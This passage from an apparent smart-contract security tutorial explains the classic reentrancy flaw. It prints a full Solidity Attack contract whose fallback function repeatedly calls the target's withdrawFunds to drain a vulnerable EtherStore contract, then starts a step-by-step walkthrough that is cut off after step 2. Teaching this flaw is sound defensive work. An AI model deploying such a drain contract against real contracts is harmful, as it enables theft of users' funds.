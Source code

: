 The vulnerability comes on line [17] where we send the user their requested
amount of ether. Consider a malicious attacker creating the following
contract,

Attack.sol:

    
    
    import "EtherStore.sol";
    
    contract Attack {
      EtherStore public etherStore;
    
      // initialise the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }
    
      function pwnEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }
    
      function collectEther() public {
          msg.sender.transfer(this.balance);
      }
    
      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    

Let us see how this malicious contract can exploit our `EtherStore` contract.
The attacker would create the above contract (let's say at the address
`0x0...123`) with the `EtherStore`'s contract address as the constructor
parameter. This will initialize and point the public variable `etherStore` to
the contract we wish to attack.

The attacker would then call the `pwnEtherStore()` function, with some amount
of ether (greater than or equal to 1), let's say `1 ether` for this example.
In this example we assume a number of other users have deposited ether into
this contract, such that it's current balance is `10 ether`. The following
would then occur:

  1. **Attack.sol - Line [15]** \- The `depositFunds()` function of the EtherStore contract will be called with a `msg.value` of `1 ether` (and a lot of gas). The sender (`msg.sender`) will be our malicious contract (`0x0...123`). Thus, `balances[0x0..123] = 1 ether`.

  2. **Attack.sol - Line [17]** \- The malicious contract will then call the `withdrawFunds()` function of the `EtherStore` contract with a parameter of `1 ether`. This will pass all the requirements (Lines [12]-[16] of the `EtherStore` contract) as we have made no previous withdrawals.
